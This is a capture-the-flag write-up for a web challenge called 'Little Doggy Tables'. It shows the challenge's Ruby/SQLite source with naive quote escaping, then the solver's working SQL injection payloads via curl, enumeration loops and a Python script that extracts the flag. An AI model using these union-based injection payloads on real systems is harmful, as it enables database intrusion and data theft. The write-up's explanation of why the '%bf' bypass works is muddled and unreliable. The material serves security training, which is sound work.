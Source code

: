 # Little Doggy Tables

## Description

> It's worse than we thought. We knew the androids couldn't care for the humans like we do (yes, even the cats care--stop yapping about loyalty, Agent Rover). But they don't even remember their own species.
> We've found a website that reminds them whether a given robot "agent" is a dog or a cat! And when we confronted a captured android about it, it was arrogant in the extreme:
> "Oh, so you found it. Yes, it will tell you if a given agent is a dog or a cat, by looking up the appropriate value in its SQLite database. Good luck with that.
> "Sure, the database contains some sensitive information, but our bulletproof firewall and top-notch quote escaping will ensure it never sees the light of day.
> "Not secure? Huh? You don’t believe me? I’ll show you how secure. Here’s the source!"
> USAGE EXAMPLE:
> `curl "https://little-doggy-tables.capturethesquare.com/agent_lookup" --get --data-urlencode "codename=Fido"`
>
> https://little-doggy-tables.capturethesquare.com

### Solution

This was a websec challenge. description suggests this is an SQLite database so it's likely an SQL injection challenge.

We are given the following Ruby source code for reference:

```ruby
#!/usr/bin/env ruby

# author: Will McChesney <wmcc@squareup.com>

require "sqlite3"
require "webrick"

PORT = ARGV[0]

class SecureDatastore
  include Singleton

  def initialize
    @db = SQLite3::Database.new("secure.db")
  end

  def secure_species_lookup(insecure_codename)
    # roll our own escaping to prevent SQL injection attacks
    secure_codename = insecure_codename.gsub("'", Regexp.escape("\\'"))
    query = "SELECT species FROM operatives WHERE codename = '#{secure_codename}';"

    puts query
    results = @db.execute(query)

    return if results.length == 0
    results[0][0]
  end
end

server = WEBrick::HTTPServer.new(Port: PORT)

trap("INT") { server.shutdown }

class AgentLookupServlet < WEBrick::HTTPServlet::AbstractServlet
  def do_GET(request, response)
    response.status = 200
    response["Content-Type"] = "text/plain"

    response.body = SecureDatastore.instance.secure_species_lookup(request.query["codename"]) + "\n"
  end
end

server.mount "/agent_lookup", AgentLookupServlet

server.start
```


The function gets passed an 'insecure_codename' variable which is our unsanitized query input. Then, there's a regex escaping that will add to any single quotes passed, a backslash. i.e. `'` would be change to `\'`.

This is however insufficient as we can add %bf. It's possible to bypass this and we will get a single quote that will not get escaped properly.

Next, we already know this is an SQLite backend DB, and the given query in the source code suggests that there's a table named operatives.  let's confirm this anyway:


```
~# curl "https://little-doggy-tables.capturethesquare.com/agent_lookup" --get --data-urlencode "codename=%bf' union select name from sqlite_master; --" --insecure

operatives
```

OK, so operatives it is, let's try to see what other rows we have other in 'species'

```
~# for i in {a..z}; do curl "https://little-doggy-tables.capturethesquare.com/agent_lookup" --get --data-urlencode "codename=%bf' union select species from operatives where species LIKE \"${i}%\"; --" --insecure; done

dog
cat

```

So we have a dog and a cat, not interesting in particular.

Let's find what codenames are available, other than Fido. maybe the flag is there?


```
~# for i in {a..z}; do curl "https://little-doggy-tables.capturethesquare.com/agent_lookup" --get --data-urlencode "codename=%bf' union select codename from operatives where codename LIKE \"${i}%\"; --" --insecure; done

Bella
Felix
Fido
Missy
Oscar
Rex
Spot
Tigger
```

Flag isn't there. maybe it's time to enumerate what other columns are available, I tried password, users, flags, flag but no cigar.

```
~# curl "https://little-doggy-tables.capturethesquare.com/agent_lookup" --get --data-urlencode "codename=%bf' union select secrets from operatives where secrets LIKE \"a%\"; --" --insecure;

no such column: secrets
```

no such thing as secrets, maybe secret?

```
~# curl "https://little-doggy-tables.capturethesquare.com/agent_lookup" --get --data-urlencode "codename=%bf' union select secret from operatives where secret LIKE \"a%\"; --" --insecure;

<H1>Internal Server Error</H1>
```
Yes! we get an internal server error message as opposed to 'No such column' so we know secrets exists, let's try the same query except this time with secrets as column.

```
~# curl "https://little-doggy-tables.capturethesquare.com/agent_lookup" --get --data-urlencode "codename=%bf' union select secret from operatives where secret LIKE \"1%\"; --" --insecure;

136571b41aa14adc10c5f3c987d43c02c8f5d498
```

We got an interesting string, but this isn't the flag, so let's enumerate with LIKE and some random numbers:

```
#!/usr/bin/python
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

URL = 'https://little-doggy-tables.capturethesquare.com/agent_lookup'


for i in range(10):
  q = '%bf\' union select secret from operatives where secret LIKE "%{0}"; --'.format(i)
  req = requests.get(URL, verify=False, params={'codename':q})
  if 'Error' not in req.text:
    print req.text


~#: python littledoggy.py 
ccf271b7830882da1791852baeca1737fcbe4b90

9c6b057a2b9d96a4067a749ee3b3b0158d390cf1

flag-a3db5c13ff90a36963278c6a39e4ee3c22e2a436

136571b41aa14adc10c5f3c987d43c02c8f5d498
```


flag is flag-a3db5c13ff90a36963278c6a39e4ee3c22e2a436.

